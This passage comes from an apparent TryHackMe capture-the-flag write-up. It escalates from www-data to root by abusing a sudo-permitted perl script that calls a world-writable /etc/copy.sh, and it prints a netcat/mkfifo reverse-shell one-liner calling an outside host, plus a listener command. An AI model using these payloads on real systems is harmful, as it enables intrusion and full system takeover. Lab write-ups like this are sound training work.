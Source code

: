 Now we have a stable shell and we can cat out the user flag

## privilege escalation

We shall start by `sudo -l` to see which files the user can run with root privilage

```bash
www-data@THM-Chal:/$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

Well we have `backup.pl` file. Lets check its permissions.

```bash
www-data@THM-Chal:/home/itguy$ ls -la | grep backup.pl
-rw-r--r-x  1 root  root    47 Nov 29  2019 backup.pl
```

We don’t have permissions to write to the file. Now we have to cat the file to see the code being ran.

```bash
www-data@THM-Chal:/home/itguy$ cat backup.pl 
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

It is running another script called `copy.sh` found on the `/etc` directory.

Lets see the permissions of `/copy.sh` 

```bash
www-data@THM-Chal:/etc$ ls -la copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 copy.sh
```

We have `write` permissions on this file. So what we can do is create a payload and save it to the file where by we shall receive a revershell as root.

```bash
www-data@THM-Chal:/etc$ cat copy.sh 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

Infact if we `cat` the contents of `copy.sh` we see a payload already there. The only thing we shall do is change the `IP` to ours and the `port` number. 

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> 4444 >/tmp/f" > copy.sh
```

Open a listener on another terminal on port 4444 `nc -lvnp 4444` 

Now run the file with sudo.
